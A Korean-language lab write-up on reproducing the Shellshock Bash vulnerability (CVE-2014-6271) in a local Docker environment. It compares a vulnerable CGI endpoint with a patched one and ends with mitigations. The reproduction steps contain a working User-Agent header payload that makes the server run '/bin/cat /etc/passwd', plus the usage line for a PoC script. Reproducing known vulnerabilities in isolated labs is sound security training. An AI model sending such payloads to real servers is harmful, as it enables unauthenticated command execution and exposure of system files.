







# CVE-2014-6271 | GNU Bash Shellshock

**Contributors**

* [박한아(@han0o0a-cmd)](https://github.com/han0o0a-cmd)

<br/>
<br/>

## 취약점 요약

GNU Bash에서 환경변수에 저장된 함수 정의(`() { ... }`) 뒤에 붙은 문자열을 명령어로 그대로 실행할 경우, Apache `mod_cgi` 환경에서 HTTP 헤더를 통해 인증 없이 원격 코드 실행(RCE)이 가능한 취약점이다.

**영향 받는 버전:** GNU Bash 4.3.24 이하

**공식 패치 버전:** GNU Bash 4.3.25 (bash43-025)

참고 자료

* [https://nvd.nist.gov/vuln/detail/CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
* [https://github.com/vulhub/vulhub/tree/master/bash/CVE-2014-6271](https://github.com/vulhub/vulhub/tree/master/bash/CVE-2014-6271)

<br/>
<br/>

## 취약 조건

아래 조건이 모두 충족될 때 성립한다.

* Bash 버전이 4.3.24 이하인 패치되지 않은 취약 버전
* Bash로 CGI 스크립트를 실행하는 웹 서버 환경

<br/>
<br/>

## 환경 설정

먼저 경로를 이동한다.
> **PowerShell**

```powershell
cd .\kr-vulhub\Bash\CVE-2014-6271
```

다음 명령을 실행하여 취약한 환경을 구축한다.

> **PowerShell**

```powershell
docker compose up -d --build
```



해당 환경은 **8080 포트**를 수신한다.

* `victim.cgi` : 소스에서 직접 컴파일한 취약한 Bash 4.3으로 실행
* `safe.cgi` : 패치된 시스템 Bash로 실행

두 환경의 동작을 비교할 수 있다.

환경이 성공적으로 실행되는지 확인하기 위해 아래 주소에 접속한다.

```text
http://localhost:8080/victim.cgi
```



<br/>
<br/>

## 재현 절차

### 1. 정상

`victim.cgi`에 일반 요청을 보내면 정상 페이지가 반환된다.

> **PowerShell**

```powershell
curl.exe http://localhost:8080/victim.cgi
```




<br/>

### 2. 공격

User-Agent 헤더에 `() { :; };` 로 시작하는 값을 실어 요청하면, Bash가 이를 함수 정의로 파싱하면서 뒤에 붙은 명령을 실행한다.

> **PowerShell**

```powershell
curl.exe -H "User-Agent: () { :; }; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/victim.cgi
```




인증 없이 서버의 계정 목록(`/etc/passwd`)이 응답 본문에 그대로 노출된다.

<br/>

### 3. 대조

동일한 요청을 패치된 Bash로 실행되는 `safe.cgi`에 보내면 명령이 실행되지 않고 정상 페이지만 반환된다.

> **PowerShell**

```powershell
curl.exe -H "User-Agent: () { :; }; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/safe.cgi
```




<br/>
<br/>
<br/>

## PoC 코드
먼저 경로를 이동한다.
> **PowerShell**

```powershell
cd .\kr-vulhub\Bash\CVE-2014-6271
```

실행 전 의존성을 설치한다.

> **PowerShell**

```powershell
python -m pip install requests
```



`poc.py`에 대상 주소와 실행할 명령을 인자로 넘겨 실행한다.

> **PowerShell**

```powershell
python poc.py http://localhost:8080/victim.cgi "/bin/cat /etc/passwd"
```




User-Agent에 넣은 명령이 서버에서 실행되어 `/etc/passwd` 내용이 그대로 노출되었다.

<br/>
<br/>
<br/>

## 실행 결과

취약한 `victim.cgi`에 Shellshock 페이로드를 담은 요청을 보낸 결과, User-Agent 헤더에 삽입한 명령이 서버에서 실행되어 `/etc/passwd` 내용이 인증 없이 응답으로 반환되었다.

동일한 요청을 패치된 `safe.cgi`에 보냈을 때는 명령이 실행되지 않고 정상 페이지만 반환되어, 취약 버전에서만 공격이 성립함을 확인하였다.

<br/>
<br/>
<br/>

## 대응 방안

* Bash를 패치된 버전(4.3.25 / bash43-025 이상)으로 업데이트하고, 배포판의 보안 업데이트를 적용한다.
* CGI 스크립트에서 Bash 사용을 지양하고, 신뢰할 수 없는 입력이 환경변수로 셸에 전달되지 않도록 한다.
* WAF 등으로 `() {` 로 시작하는 비정상 헤더 값을 탐지·차단한다.
